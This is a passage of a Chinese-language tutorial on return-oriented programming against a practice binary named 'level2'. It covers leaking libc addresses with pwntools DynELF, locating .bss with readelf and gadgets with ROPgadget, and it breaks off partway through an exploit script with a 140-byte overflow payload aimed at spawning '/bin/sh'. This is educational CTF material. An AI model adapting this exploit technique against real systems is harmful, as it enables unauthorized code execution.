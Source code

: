 了解其原理后我们可以来解释一下这个常见leak函数的书写。主要是用了write函数打印的操作把需要查询的地址都打印出来，形成内存泄漏，这里的payload分别的意思是(140个填充，write的plt地址，返回地址，write函数的三个参数)，然后接收返回信息即可。
随后将这个函数作为参数再调用d = DynELF(leak, elf=ELF('./level2'))就可以对DynELF模块进行初始化了。然后可以通过调用system_addr = d.lookup('system', 'libc')来得到libc.so中system()在内存中的地址。

要注意的是，通过DynELF模块只能获取到system()在内存中的地址，但无法获取字符串“/bin/sh”在内存中的地址。所以我们在payload中需要调用read()将“/bin/sh”这字符串写入到程序的.bss段中。.bss段是用来保存全局变量的值的，地址固定，并且可以读可写。通过readelf -S level2这个命令就可以获取到bss段的地址了。

获取.bss段地址如下：
```
root@bogon:~/Desktop/ROP/linux_x86# readelf -S level2
There are 30 section headers, starting at offset 0x1140:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  ......
  [21] .dynamic          DYNAMIC         08049f28 000f28 0000c8 08  WA  6   0  4
  [22] .got              PROGBITS        08049ff0 000ff0 000004 04  WA  0   0  4
  [23] .got.plt          PROGBITS        08049ff4 000ff4 00001c 04  WA  0   0  4
  [24] .data             PROGBITS        0804a010 001010 000008 00  WA  0   0  4
  [25] .bss              NOBITS          0804a018 001018 000008 00  WA  0   0  4
  ......
```
因为我们在执行完read()之后要接着调用system(“/bin/sh”)，并且read()这个函数的参数有三个，所以我们需要一个pop pop pop ret的gadget用来保证栈平衡。这个gadget非常好找，用objdump就可以轻松找到,这里使用ROPgadget来进行查找。PS：我们会在随后的章节中介绍如何用工具寻找更复杂的gadgets。
查找gadgets：
`ROPgadget --binary babystack --only 'pop|ret'`
或者`objdump -d`
结果如下：
```
root@bogon:~/Desktop/ROP/linux_x86# ROPgadget --binary level2 --only 'pop|ret'
Gadgets information
============================================================
0x080483d3 : pop ebp ; ret
0x080483d2 : pop ebx ; pop ebp ; ret
0x080484bc : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080482fc : pop ebx ; ret
0x080484be : pop edi ; pop ebp ; ret
0x080484bd : pop esi ; pop edi ; pop ebp ; ret
0x080482db : ret

Unique gadgets found: 7
```

整个攻击过程如下：首先通过DynELF获取到system()的地址后，我们又通过read将“/bin/sh”写入到.bss段上，最后再调用system（.bss），执行“/bin/sh”。
最终的exp如下:

```
#!/usr/bin/env python
from pwn import *

elf = ELF('./level2')
plt_write = elf.symbols['write']
plt_read = elf.symbols['read']
#vulfun_addr = 0x08048404
vulfun_addr = elf.symbols['main'] #0x804842d
bss_addr = 0x0804a018 #elf.bss()
pppr = 0x080484bd

def leak(address):
    payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(address) + p32(4)
    #payload1 = 'a'*140 + p32(plt_write) + p32(pppr) + p32(1) +p32(bss_addr) + p32(4)+p32(vulfun_addr)
# 两个payload都可以
    p.send(payload1)
    data = p.recv(4)
```